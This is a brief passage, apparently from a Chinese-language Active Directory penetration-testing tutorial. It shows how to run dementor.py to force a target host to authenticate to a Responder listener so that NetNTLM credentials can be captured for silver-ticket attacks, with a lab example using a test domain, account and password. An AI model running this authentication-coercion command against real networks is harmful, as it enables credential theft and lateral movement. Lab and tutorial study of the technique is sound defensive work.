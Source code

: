 [![](assets/1701606771-5c23282873de04ea24266e7f77eb66c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144250-b4447d62-7c6f-1.png)  
b、使用 dementor.py 脚本  
[https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

```bash
#格式：
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>

#示例：
python3 dementor.py -d hacke.testlab -u Al1ex -p 'Kksvqm@123' 192.168.174.129 192.168.174.2
```

[![](assets/1701606771-54523eee620c592a0d7df3abc6c27e0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144314-c2966826-7c6f-1.png)  
